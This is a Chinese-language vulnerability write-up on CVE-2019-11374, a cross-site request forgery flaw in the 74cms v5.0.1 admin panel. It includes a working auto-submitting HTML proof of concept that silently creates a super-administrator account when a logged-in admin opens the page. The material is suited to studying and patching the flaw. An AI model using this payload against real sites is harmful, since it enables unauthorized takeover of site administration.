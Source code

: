 <h1>（CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞</h1>
<h2>一、漏洞简介</h2>
<p>在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。</p>
<h2>二、漏洞影响</h2>
<p>74CMS v5.0.1</p>
<h2>三、复现过程</h2>
<p>首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包</p>
<p>当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户</p>
<pre><code class="language-html">
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
</code></pre>
<h2>参考链接</h2>
<p>https://www.023niu.com/show-62-32-1.html</p>
